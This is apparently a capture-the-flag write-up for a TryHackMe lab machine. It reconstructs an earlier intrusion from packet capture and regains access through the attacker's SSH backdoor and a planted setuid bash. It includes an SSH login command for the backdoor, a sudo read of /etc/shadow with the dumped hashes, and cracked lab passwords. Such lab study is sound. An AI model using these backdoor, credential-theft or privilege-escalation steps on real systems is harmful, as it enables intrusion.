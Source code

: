 # THM: Overpass-2 Hacked
# OS: Linux (Easy)

----

[NOTES]
- The attacker used `/development/upload.php` to upload a php reverse shell.
- Found creds (internal)
  `james:whenevernoteartinstant`
- James can run everything as sudo
- The attacker has an ssh backdoor at 0.0.0.0:2222
  `User: james`
  `Pass: november16`
  `File: /home/james/.ssh/id_rsa`
- Cracked 4/5 passwords from /etc/shadow
  secret12
  secuirty3
  1qaz2wsx
  abcd123

Usernames:
  - System:
    - james
    - paradox
    - szymex
    - muirland
    
Passwords:
  - System:
    - james:whenevernoteartinstant
    - paradox:secret12
    - szymex:secuirty3
    - bee:1qaz2wsx
    - muirland:abcd123

----

[PCAP Analysis]

- Extracted files from PCAP:
  index.html
  'upload(1).php'
  upload.php ----> Has the attackers payload
  uploads
- Found what the attacker did from his shell at pcap line 31 by following the tcp stream.
- The attacker viewed `/etc/shadow`
- The attacker installed an ssh backdoor:
  [NinjaJc01-Backdoor](https://github.com/NinjaJc01/ssh-backdoor)

----

## Foothold

- Got access by using the backdoor on port 2222
  Creds | james:november16
  `ssh -oHostKeyAlgorithms=+ssh-rsa james@$ip -p 2222`

## Privesc

- They created a `.setuid_bash` at james' home directory
  `./.setuid_bash -p`

----

[LOOT]

```/etc/shadow
james@overpass-production:~$ sudo cat /etc/shadow
sudo cat /etc/shadow
root:*:18295:0:99999:7:::
daemon:*:18295:0:99999:7:::
bin:*:18295:0:99999:7:::
sys:*:18295:0:99999:7:::
sync:*:18295:0:99999:7:::
games:*:18295:0:99999:7:::
man:*:18295:0:99999:7:::
lp:*:18295:0:99999:7:::
mail:*:18295:0:99999:7:::
news:*:18295:0:99999:7:::
uucp:*:18295:0:99999:7:::
proxy:*:18295:0:99999:7:::
www-data:*:18295:0:99999:7:::
backup:*:18295:0:99999:7:::
list:*:18295:0:99999:7:::
irc:*:18295:0:99999:7:::
gnats:*:18295:0:99999:7:::
nobody:*:18295:0:99999:7:::
systemd-network:*:18295:0:99999:7:::
systemd-resolve:*:18295:0:99999:7:::
syslog:*:18295:0:99999:7:::
messagebus:*:18295:0:99999:7:::
_apt:*:18295:0:99999:7:::
lxd:*:18295:0:99999:7:::
uuidd:*:18295:0:99999:7:::
dnsmasq:*:18295:0:99999:7:::
landscape:*:18295:0:99999:7:::
pollinate:*:18295:0:99999:7:::
sshd:*:18464:0:99999:7:::
james:$6$7GS5e.yv$HqIH5MthpGWpczr3MnwDHlED8gbVSHt7ma8yxzBM8LuBReDV5e1Pu/VuRskugt1Ckul/SKGX.5PyMpzAYo3Cg/:18464:0:99999:7:::
paradox:$6$oRXQu43X$WaAj3Z/4sEPV1mJdHsyJkIZm1rjjnNxrY5c8GElJIjG7u36xSgMGwKA2woDIFudtyqY37YCyukiHJPhi4IU7H0:18464:0:99999:7:::
szymex:$6$B.EnuXiO$f/u00HosZIO3UQCEJplazoQtH8WJjSX/ooBjwmYfEOTcqCAlMjeFIgYWqR5Aj2vsfRyf6x1wXxKitcPUjcXlX/:18464:0:99999:7:::
bee:$6$.SqHrp6z$B4rWPi0Hkj0gbQMFujz1KHVs9VrSFu7AU9CxWrZV7GzH05tYPL1xRzUJlFHbyp0K9TAeY1M6niFseB9VLBWSo0:18464:0:99999:7:::
muirland:$6$SWybS8o2$9diveQinxy8PJQnGQQWbTNKeb2AiSp.i8KznuAjYbqI3q04Rf5hjHPer3weiC.2MrOj2o1Sw/fd2cu0kC6dUP.:18464:0:99999:7:::
```

